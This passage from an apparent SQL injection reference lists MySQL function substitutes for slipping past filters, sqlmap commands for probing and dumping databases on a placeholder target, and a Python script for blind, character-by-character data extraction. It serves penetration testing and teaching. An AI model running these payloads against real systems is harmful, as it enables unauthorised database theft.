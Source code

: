### Function Alternatives

```sql
-- Instead of SUBSTRING
MID(), LEFT(), RIGHT(), SUBSTR()

-- Instead of CONCAT
MAKE_SET(), ELT(), INSERT()

-- Instead of ASCII
ORD(), HEX()

-- Instead of LENGTH
CHAR_LENGTH(), CHARACTER_LENGTH()
```

## Automated Testing Tools

### SQLMap

The most popular automated SQL injection tool.

```bash
# Basic usage
sqlmap -u "http://target.com/page.php?id=1"

# POST data testing
sqlmap -u "http://target.com/login.php" --data="username=admin&password=test"

# Advanced options
sqlmap -u "target.com" --forms --crawl=2 --random-agent --batch

# Database enumeration
sqlmap -u "target.com" --dbs --tables --columns --dump
```

### Custom Python Scripts

```python
import requests
import string
import time

def blind_sqli_extract(url, injection_point, database_query):
    extracted_data = ""
    position = 1
    
    while True:
        found = False
        for char in string.ascii_lowercase + string.digits + '_':
            payload = f"' AND (SELECT SUBSTRING(({database_query}),{position},1))='{char}'--"
            
            response = requests.get(url, params={injection_point: payload})
            
            if "welcome" in response.text.lower():  # Adjust based on app behavior
                extracted_data += char
                found = True
                break
        
        if not found:
            break
        position += 1
    
    return extracted_data
```
